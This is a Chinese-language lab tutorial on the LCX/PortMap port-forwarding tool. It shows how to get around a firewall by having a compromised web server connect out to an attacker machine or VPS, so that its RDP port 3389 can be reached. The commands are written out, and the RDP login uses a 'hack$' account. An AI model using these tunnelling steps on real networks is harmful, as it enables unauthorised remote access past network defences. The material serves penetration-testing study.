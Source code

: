 # **LCX**介绍 

LCX是一款端口转发工具， 分为Windows版和Linux版，  Linux版本为PortMap。 LCX有端口映射和端口转发两大功 能，

 例如当目标的3389端口只对内开放而不对外开放时， 可以使用端口映射将3389端口映射到目标的其他端口使 用； 当目标处于内网或目标配置的策略只允许访问固定某一端口时， 可以通过端口转发突破限制。  

## Windows版的 LCX用法:

```
端口转发：
Lcx -listen <监听slave请求的端口><等待连接的端口>
Lcx -slave <攻击机IP><监听端口><目标IP><目标端口>

端口映射：
Lcx -tran <等待连接的端口><目标IP><日标端口>
```

## Linux版的LCX用法:

```
Usage:./portmap -m method [-h1 host1] -p1 port1 [-h2 host2] -p2 port2 [-v] [-log filename]
-v: version
-h1: host1
-h2: host2
-p1: port1
-p2: port2
-log: log the data
-m: the action method for this tool
1: listen on PORT1 and connect to HOST2:PORT2
2: listen on PORT1 and PORT2
3: connect to HOST1:PORT1 and HOST2:PORT2

```

# **LCX**实验一

## 一、实验场景



由于配置了防火墙只允许web访问， 这个时候攻击者想访问3389端口， 远程连接是不可以的， 就需要使用LCX进行 端口转发

Web服务器开启了80端口， 3389端口不允许出网， 可以将web服务器的3389端口转发到允许出网的53端口， 这个 时候攻击者在本地监听53端口并且转发到1111端口， 这个时候攻击者连接自己的1111端口， 等于访问web服务器 的3389端口

![img](https://image.201068.xyz/assets/clip_image003.jpg)

## 二、实验环境

机器介绍如下 

| 机器名称  | 机器**IP**   |
| --------- | ------------ |
| 攻击机器  | 192.168.70.7 |
| web服务器 | 192.168.70.8 |

## 三、实验复现

### 1、在攻击机器上运行以下命令， 

监听本地53端口并且转发到本地1111端口

```
lcx -listen 53 1111  
```

![img](https://image.201068.xyz/assets/clip_image005.gif)

### 2、在web靶机上运行以下命令，  

将本地的3389端口转发到192.168.70.7的 53端口

```
 lcx.exe -slave 192.168.70.7 53 127.0.0.1 3389  
```

![img](https://image.201068.xyz/assets/clip_image007.gif)

### 3、在攻击机器上运行远程桌面， 地址为127.0.0.1:1111

```
127.0.0.1:1111
hack$
123456kl;'
```

![img](https://image.201068.xyz/assets/clip_image008.jpg)

# **LCX**实验二 

## 一、实验场景

Web服务器开启了80端口， 3389端口不允许出网， 可以将web服务器的3389端口转发到允许出网的54端口， 这个 时候攻击者在VPS监听54端口并且转发到1111端口， 这个时候攻击者连接VPS的1111端口， 等于访问web服务器的 3389端口

![img](https://image.201068.xyz/assets/clip_image009.jpg)

## 二、实验环境

| 机器名称       | 机器**IP**    |
| -------------- | ------------- |
| 攻击者VPS      | 47.120.13.249 |
| 内网攻击者机器 | 192.168.220.2 |
| 内网靶机       | 192.168.70.8  |

## 三、实验复现

### 1、在攻击机器上运行以下命令， 

监听本地54端口并且转发到本地1111端口

```
lcx -slave 47.120.13.249 54 127.0.0.1 3389  
```

![img](https://image.201068.xyz/assets/clip_image010.jpg)

### 2、在vps运行

`lcx -listen 54 1111`，

 因为我的机器vps机器是linux系统所以使用`portmap`

```
./portmap -m 2 -p1 54 -p2 1111 
```

![img](https://image.201068.xyz/assets/clip_image012.gif)

### 3、在那内攻击机器上连接

```
47.120.13.249:1111
hack$
123456kl;'
```

![img](https://image.201068.xyz/assets/clip_image013.jpg)